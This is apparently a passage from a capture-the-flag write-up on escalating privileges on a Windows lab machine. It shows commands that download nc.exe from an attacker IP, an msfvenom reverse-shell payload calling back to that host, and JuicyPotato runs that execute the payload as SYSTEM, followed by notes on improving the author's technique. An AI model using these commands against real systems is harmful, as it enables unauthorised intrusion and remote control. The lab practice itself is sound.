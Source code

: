 ``echo lab>> ftp.txt``

``echo bin>> ftp.txt``

``echo GET Juicy_Potato_x86.exe>> ftp.txt``

``echo bye>> ft4.txt``

``ftp -v -n -s:ftp.txt``

-----------PowerShell------------------

``powershell Invoke-WebRequest -Uri http://10.10.16.5:80/nc.exe -OutFile C:\Users\Public\Downloads\nc.exe``

-----------WGET------------------

``wget "http://10.10.16.5:80/nc.exe" -outfile "nc.exe"``

-----------SMBSERVER-IMPACKET------------------

``/usr/bin/impacket-smbserver kali .``

![image](https://user-images.githubusercontent.com/123066149/220461207-fef86ba1-5d0b-431d-86f1-add5683ec68d.png)

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4321 -f exe -o exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/220463126-0a99d74d-bd0d-4b6b-8fac-d314f06ae337.png)

### I use this command to copy the binaries to the machine :

``copy \\10.10.16.5\kali\exploit.exe``

``copy \\10.10.16.5\kali\JuicyPotato.exe``

![image](https://user-images.githubusercontent.com/123066149/220463530-b6a46bda-37d1-49ca-9a77-450d357525ed.png)

``JuicyPotato.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

``JuicyPotato.exe -l 1337 -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -p c:\Users\merlin\Desktop\exploit.exe  -t *``

![7](https://user-images.githubusercontent.com/123066149/220464952-ac63e66e-e994-4ade-9be4-abfb27857c86.PNG)

![8](https://user-images.githubusercontent.com/123066149/220464961-8763b403-3f63-45e6-bc86-b1b801f9e542.PNG)

# ${{\color{purple}Points of Improvement}}\ $

* Better perform the directory bruteforce
* Redirect bruteforces into files, same as nmap
* Use wordlist to brute force extensions of a file upload ( don't waste your time doing it by hand )
* Don't get stuck in a shell that doesn't allow you to run binaries
* Don't hesitate to try several POC to find the right RCE

# ${{\color{purple}Essential commandes}}\ $
